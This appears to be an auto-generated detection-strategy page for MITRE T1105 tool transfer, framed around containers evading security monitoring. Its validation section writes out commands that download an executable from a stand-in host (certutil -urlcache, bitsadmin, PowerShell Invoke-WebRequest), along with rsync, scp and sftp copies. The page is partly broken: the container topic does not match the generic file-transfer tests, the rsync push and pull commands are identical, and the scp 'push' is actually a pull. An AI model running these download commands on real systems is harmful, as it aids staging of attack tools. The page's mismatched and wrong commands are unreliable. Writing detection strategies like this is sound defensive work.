 # Alerting & Detection Strategy: Detect Adversarial Attempts to Bypass Security Monitoring Using Containers

## Goal
This technique aims to detect adversarial attempts to bypass security monitoring systems by leveraging container technologies on various platforms.

## Categorization

- **MITRE ATT&CK Mapping:** T1105 - Ingress Tool Transfer  
  This involves techniques where adversaries transfer tools into compromised environments for further exploitation.
- **Tactic / Kill Chain Phases:** Command and Control
- **Platforms:** Linux, macOS, Windows  
  [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1105)

## Strategy Abstract
The detection strategy focuses on monitoring container activities across diverse data sources including network traffic logs, system calls, file integrity events, and container runtime activity. The key patterns analyzed include unusual inter-container communications, abnormal container deployment behavior, and unexpected changes to container images.

- **Data Sources:** 
  - Container runtime logs (e.g., Docker, Kubernetes)
  - Network traffic monitoring
  - System call tracing
  - File integrity alerts

## Technical Context
Adversaries often exploit containers due to their lightweight nature and the ability to isolate environments while still communicating with host systems. Common methods include:
- Deploying malicious containers that mimic legitimate ones.
- Using container images as vectors for deploying malware.
- Leveraging inter-container communication channels to exfiltrate data.

### Adversary Emulation Details
To emulate these techniques, test scenarios might involve creating and executing suspicious container activities such as:
- Pulling compromised or unexpected container images.
- Establishing unauthorized communication between containers.
- Modifying container configurations without proper authorization.

## Blind Spots and Assumptions
- **Blind Spots:**
  - Advanced obfuscation methods used by adversaries may not be detected.
  - Encrypted inter-container communications might evade detection unless decrypted in transit.
  
- **Assumptions:**
  - Container runtime environments are configured with logging enabled.
  - Security teams have baseline knowledge of legitimate container activities.

## False Positives
Potential benign activities that could trigger false alerts include:
- Legitimate software updates using containerized deployment tools.
- Routine inter-container communications in microservices architectures.
- Authorized use of scripts for automation purposes within containers.

## Priority
**Priority: High**

Justification: The rapid growth and adoption of container technologies provide adversaries with a versatile tool to bypass traditional security measures. This increases the risk profile, making timely detection crucial.

## Validation (Adversary Emulation)
To validate this detection strategy, simulate adversarial techniques in a controlled test environment:

1. **rsync remote file copy:**
   - Push: `rsync -avz source_user@host:/path/to/file /destination`
   - Pull: `rsync -avz source_user@host:/path/to/file /destination`

2. **scp remote file copy:**
   - Push: `scp source_user@host:/path/to/file /destination`
   - Pull: `scp /local_file source_user@host:/path/to/destination`

3. **sftp remote file copy:**
   - Push: 
     ```bash
     sftp source_user@host
     put /local_path/to/file /remote/path/to/file
     ```
   - Pull:
     ```bash
     sftp source_user@host
     get /remote/path/to/file /local_path/to/destination
     ```

4. **certutil download:**
   - urlcache: `certutil -urlcache -split -f http://example.com/file.exe c:\windows\temp`
   - verifyctl: `certutil -verifyctl http://example.com/file.exe`

5. **Windows BITSAdmin BITS Download:**
   ```cmd
   bitsadmin /transfer "jobname" https://example.com/file.exe C:\destination\
   ```

6. **PowerShell Download:**
   ```powershell
   Invoke-WebRequest -Uri "http://example.com/file.exe" -OutFile "C:\destination\file.exe"
   ```

7. **OSTAP Worming Activity, svchost writing a file to a UNC path, etc.:** These can be replicated using specific tools and scripts designed for such purposes.

## Response
Upon detection of suspicious container activities:
- Isolate affected containers.
- Analyze logs and network traffic related to the identified threat vector.
- Verify the integrity of all deployed container images.
- Update security policies and detection signatures based on insights gained from the incident.

## Additional Resources
For further context and reference, consider exploring resources such as:
- Curl Usage on Linux
- PowerShell Web Download Patterns
- Suspicious Activities Related to Container Runtime Logs

These materials provide deeper insights into potential adversarial tactics involving containers and help refine detection strategies.